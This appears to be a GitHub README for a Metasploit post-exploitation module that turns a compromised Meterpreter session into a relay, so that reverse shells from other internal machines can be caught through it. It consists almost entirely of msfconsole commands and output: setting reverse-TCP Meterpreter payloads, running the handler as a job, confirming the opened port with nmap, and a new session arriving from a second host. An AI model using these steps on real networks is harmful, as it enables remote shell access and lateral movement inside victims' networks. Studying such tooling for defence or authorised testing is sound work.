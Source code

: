 # session_handler
a post module of metasploit, bind handler in meterpreter session 

frist you need get a meretpreter session 
```bash
msf6 exploit(multi/handler) > sessions 

sessions
============

  Id  Name    Type                     Info           Connection
  --  ------    ------                     ------           ------
  1           meterpreter x86/windows  w-PC\w @ W-PC  192.168.56.1:4444 -> 192.168.56.102:49402 (192.168.56.102)
```




run  use exploit/multi/session_handler 
```bash

msf6 exploit(multi/handler) >   use exploit/multi/session_handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/session_handler) > options
msf6 exploit(multi/session_handler) > set lport  14444 
msf6 exploit(multi/session_handler) > set lhost 192.168.56.1 #local machine public address 
msf6 exploit(multi/session_handler) > set payload windows/x64/meterpreter_reverse_tcp 
msf6 exploit(multi/session_handler) > set session  1 #the meterpreter sessionid  
msf6 exploit(multi/session_handler) > run -j #as job
msf6 exploit(multi/session_handler) > jobs 

Jobs
====

  Id  name                           payload                          options
  --  ------                            ------------                           ------------------
  5   Exploit: multi/session_handler  linux/x64/meterpreter_reverse_tcp  tcp://192.168.56.1:14444
```


now ,you can see the port  14444 is binding in  192.168.56.102 (meterpreter session machine).

check port is open with nmap 

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-30 17:43 CST
Nmap scan report for 192.168.56.102
Host is up (0.00047s latency).

PORT      STATE SERVICE
14444/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.03 seconds
```




 execute windows/x64/meterpreter_reverse_tcp on other machine (The machine must have access to 192.168.56.102  ) , the you will be get a new meterpreter session from intranet host.

```bash
msf6 exploit(multi/session_handler) > [*] Meterpreter session 3 opened (192.168.56.1:14444 -> 192.168.56.1:40977) at 2022-07-30 17:32:46 +0800
msf6 exploit(multi/session_handler) > 
msf6 exploit(multi/session_handler) > sessions 
sessions
============

  Id  Nmae  Type                     Info                                                                    Connection
  --  ------    ------                     ------                                                                    ------
  1           meterpreter x86/windows  w-PC\w @ W-PC                                                           192.168.56.1:4444 -> 192.168.56.102:49402 (192.168.56.102)
  3           meterpreter x86/linux    w @ w-F117-V (uid=1000, gid=1000, euid=1000, egid=1000) @ 192.168.1.12  192.168.56.1:14444 -> 192.168.56.1:40977 (192.168.56.1)
```

